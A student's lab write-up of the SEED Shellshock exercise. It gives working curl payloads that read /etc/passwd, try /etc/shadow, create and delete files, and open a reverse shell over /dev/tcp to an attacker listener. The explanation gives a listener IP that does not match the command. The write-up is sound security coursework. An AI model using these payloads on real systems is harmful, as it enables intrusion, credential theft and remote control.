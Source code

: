 ```yaml
---
sidebar_position: 4
id: HW3
title: HW3
tags:
    - Study
    - Graduate
    - System Security
---
```


## Task 3: Launching the Shellshock Attack

### Task 3.A: Retrieve /etc/passwd (Using User-Agent)

![Task 3A](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-a.png)

We use the `curl` command with the `-A` option to set the `User-Agent` header:

```bash
curl -A "() { :;}; echo Content-type: text/plain; echo; cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

As shown above, the Shellshock exploit executes the `cat /etc/passwd` command.

### Task 3.B: Get Process User ID (Using Referer)

![Task 3B](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-b.png)

We use the `-e` option to set the `Referer` header:

```bash
curl -e "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; /bin/id'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

The output indicates that the server process runs as the `www-data` user, which shows that the exploit successfully executes `/bin/id`.

### Task 3.C: Create a File in /tmp (Using Custom Header)

![Task 3C](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-c.png)

We use the `-H` option to set a custom header `X-Shellshock`:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; touch /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

No output is returned, as `touch` produces none.  
But after entering the container with `docker exec -it 68997b4796f2 /bin/bash` and running `ls /tmp`, we can see `myfile` listed.

### Task 3.D: Delete the File in /tmp (Using Custom Header)

![Task 3D](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-d.png)

We reuse the `X-Shellshock` header:

```bash
curl -H "X-Shellshock: () { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; rm /tmp/myfile'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

Checking again with `ls /tmp` inside the container shows `myfile` no longer exists.

### Question 1: Can we steal `/etc/shadow` from the server?

We can test with:

```bash
curl -A "() { :;}; /bin/bash_shellshock -c 'echo Content-type: text/plain; echo; cat /etc/shadow'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

![Question 1](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q1.png)

So the answer is:  
**No**. Because the attack runs as `www-data`, which lacks the necessary permissions to read `/etc/shadow`:

### Question 2: Can we use QUERY_STRING to launch the attack?

We can test with:

```bash
curl "http://www.seedlab-shellshock.com/cgi-bin/vul.cgi?() { :;}; echo vulnerable"
```

![Question 2](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task3-Q2.png)

So the answer is:  
**No**. The output is a `400 Bad Request` error, indicating the server rejected the request.  
`QUERY_STRING` field in the URL would not be parsed as a function definition that `bash_shellshock` can execute.

## Task 4: Getting a Reverse Shell via Shellshock Attack

![Task 4](https://jcqn.oss-cn-beijing.aliyuncs.com/img_blog/523SS/HW3/task4.png)

We establish a reverse shell from the victim server (`10.9.0.80`) to the attacker machine (`10.0.2.15`).

1. First, on the attacker VM, we start a listener:
    ```bash
    nc -nv -l 9090
    ```
2. Then, in a second terminal, we launch the attack using the `User-Agent` header:
    ```bash
    curl -A "() { :;}; /bin/bash_shellshock -c '/bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1'" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
    ```

We can see that the `nc` terminal shows `Connection received on 10.9.0.80 40356`, followed by a shell prompt: `www-data@68997b4796f2:/usr/lib/cgi-bin$`. We observe messages like _bash: cannot set terminal process group (32): Inappropriate ioctl for device_ and _bash: no job control in this shell_, which are expected in a reverse shell without a proper terminal.

:::tip Payload Explanation

- `() { :;};` triggers the vulnerability by defining a function, allowing commands following it to be executed.
- `/bin/bash_shellshock -c` Executes our command in a vulnerable shell.
- `/bin/bash -i` starts an interactive shell.
- `> /dev/tcp/10.9.0.5/9090` redirects the shell's output to the attacker's listener.
- `0<&1 2>&1` redirects standard input and error to the same socket, allowing full interaction with the shell.

:::
